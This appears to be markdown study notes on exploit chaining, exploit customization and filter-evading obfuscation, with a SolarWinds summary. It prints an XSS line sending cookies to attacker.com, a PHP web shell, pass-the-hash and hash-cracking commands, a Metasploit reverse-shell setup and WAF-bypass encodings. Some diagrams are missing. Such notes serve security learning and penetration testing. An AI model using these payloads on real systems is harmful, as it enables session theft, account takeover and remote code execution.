



# Advanced Vulnerability Exploitation

---

# 0. Overview

Advanced exploitation is not about finding **a vulnerability**, but about **building attack paths**.

Across all three references:

- **Exploit-DB** → teaches *real multi-stage PoCs*
- **TCM Security** → teaches *structured exploitation methodology*
- **SolarWinds attack** → shows *real-world chained exploitation at scale*

The core mindset shift:

```
Beginner → "I found XSS"
Advanced → "How do I turn this into full system compromise?"
```

---

# 1. EXPLOIT CHAINS (Multi-Stage Attacks)

---

## 1.1 What is an Exploit Chain?

An **exploit chain** is a sequence of vulnerabilities used together to:

- Escalate privileges
- Move laterally
- Achieve persistence
- Exfiltrate data

### Core Structure (TCM Methodology)



---

## 1.2 Real Exploit Chain Example (Exploit-DB Style)

### Scenario: Web App → Server Compromise

### Stage 1: XSS (Initial Access)

```jsx
<script>
fetch('<http://attacker.com/log?c='+document.cookie>)
</script>
```

- Extract session
- Target: Admin user

---

### Stage 2: Session Hijacking

```bash
curl -H "Cookie: PHPSESSID=stolen_session" <http://target/admin>
```

- Gain admin panel access

---

### Stage 3: File Upload Abuse

- Upload malicious PHP shell

```php
<?php system($_GET['cmd']); ?>
```

---

### Stage 4: Remote Code Execution

```bash
<http://target/uploads/shell.php?cmd=whoami>
```

---

### Chain Summary



---

## 1.3 XSS → CSRF Chain (Critical)

### Step 1: Inject XSS

```jsx
<script>
fetch('/change-password', {
 method: 'POST',
 body: 'password=hacked123'
});
</script>
```

---

### Step 2: Victim Executes Script

- Browser auto-includes session cookie
- No CSRF token validation

---

### Step 3: Account Takeover

- Password changed silently

---

## 1.4 ProxyShell (Real Multi-CVE Chain)

### Vulnerabilities:

- CVE-2021-34473 → Pre-auth path confusion
- CVE-2021-34523 → Privilege escalation
- CVE-2021-31207 → Arbitrary file write

---

### Attack Chain:



---

## 1.5 Internal Network Chains (TCM Internal Pentest)

### Example Chain:

1. LLMNR Poisoning
2. Capture NTLM hash
3. Crack hash
4. SMB login
5. Privilege escalation
6. Lateral movement

---

### Commands:

### LLMNR Poisoning

```bash
responder -I eth0
```

---

### Crack Hash

```bash
hashcat -m 5600 hash.txt rockyou.txt
```

---

### Pass-the-Hash

```bash
pth-winexe -U admin%hash //target cmd.exe
```

---

## 1.6 SolarWinds Supply Chain Attack (Brief)

## Overview

The **SolarWinds supply chain attack (2020)** was one of the most sophisticated cyberattacks, where attackers compromised the **software build process** of SolarWinds’ Orion platform and distributed malicious updates to thousands of organizations.

---

### Attack Summary

- **Target**: SolarWinds Orion IT management software
- **Method**: Supply chain compromise
- **Impact**: Government agencies and major corporations compromised
- **Malware Used**: SUNBURST (backdoor)

---

### Attack Chain (Multi-Stage Exploitation)

Initial Access → Code Injection → Malicious Update Distribution → Backdoor Execution → Lateral Movement → Data Exfiltration

---

### Step-by-Step Breakdown

#### 1. Initial Compromise

Attackers gained access to SolarWinds’ internal systems and inserted malicious code into the Orion software build pipeline.

---

#### 2. Trojanized Software Updates

- The compromised software was digitally signed and distributed as legitimate updates.
- Around **18,000+ customers** installed the infected version.

---

#### 3. Backdoor Activation (SUNBURST)

- The malware remained dormant for a period to avoid detection.
- Then it initiated communication with command-and-control (C2) servers.

---

#### 4. Lateral Movement

Attackers:

- Stole credentials
- Moved across internal networks
- Targeted high-value systems (Active Directory, email systems)

---

#### 5. Data Exfiltration

Sensitive data was extracted from:

- Government networks
- Enterprise environments

---

### Key Techniques Used

- Supply chain compromise
- Code injection in build systems
- Trusted software abuse
- Stealthy persistence
- Credential dumping and lateral movement

---

### Why This Attack is Important

- Demonstrates **real-world exploit chaining at enterprise scale**
- Shows how **trusted software can become an attack vector**
- Highlights importance of:
  - Secure build pipelines
  - Zero Trust architecture
  - Monitoring software updates

---

### Key Takeaway

The SolarWinds attack is a perfect example of a **multi-stage exploit chain**, where attackers combined supply chain compromise, backdoor access, and lateral movement to achieve large-scale data breaches.
---

# 2. EXPLOIT CUSTOMIZATION

---

## 2.1 What is Exploit Customization?

Modifying existing exploits to:

- Fit target environment
- Bypass defenses
- Improve reliability

---

## 2.2 Exploit-DB PoC Customization

### Example: Python Exploit

Original:

```python
target = "127.0.0.1"
port = 80
```

---

### Modified:

```python
target = "192.168.1.10"
port = 8080
payload = "<?php system($_GET['cmd']); ?>"
```

---

## 2.3 Metasploit Customization

```bash
use exploit/multi/http/struts2
set RHOSTS 192.168.1.10
set TARGETURI /app
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.1.5
run
```

---

### Advanced Customization

- Change payload encoding
- Use staged payloads
- Adjust timeout/retries

---

## 2.4 Debugging with GDB

```bash
gdb ./vulnerable_app
run
```

- Analyze crashes
- Modify offsets
- Bypass protections

---

## 2.5 Bypassing Protections

| Protection | Bypass Technique |
| --- | --- |
| ASLR | Info leak |
| DEP | ROP chains |
| AV  | Obfuscation |
| IDS | Traffic shaping |

---

## 2.6 Real-World Use (Bug Bounty)

- Modify PoC to avoid crashing app
- Adapt for:
  - Different OS
  - Different versions
- Make exploit reliable

---

## 2.7 TCM Approach

- Never rely on automation only
- Always validate manually
- Customize for stealth

---

# 3. OBFUSCATION TECHNIQUES

---

## 3.1 Why Obfuscation?

To bypass:

- WAF
- Input filters
- IDS

---

## 3.2 Encoding Techniques

### HTML Encoding

```html
<script>alert(1)</script>
```

→

```html
<script>alert(1)</script>
```

---

### Unicode Encoding

```jsx
\\u0061\\u006c\\u0065\\u0072\\u0074(1)
```

---

### Base64

```jsx
eval(atob("YWxlcnQoMSk="))
```

---

## 3.3 Polymorphism

```jsx
Function("ale"+"rt(1)")();
```

---

## 3.4 SQL Injection Obfuscation

```sql
SELECT/**/password/**/FROM/**/users
```

---

## 3.5 Payload Splitting

```jsx
var a="al"; var b="ert(1)";
eval(a+b);
```

---

## 3.6 Advanced Bypasses

| Technique | Example |
| --- | --- |
| Comments | `UN/**/ION SELECT` |
| Backticks | `ls` |
| Line Feeds | `%0a` |
| Case Variation | `SeLeCt` |

---

## 3.7 TCM Real Insight

- WAFs rely on pattern matching
- Obfuscation breaks patterns
- Always test multiple payload formats

---

## Mindset Upgrade

```
Not: "I found a bug"
But: "I built an attack chain"
```

---
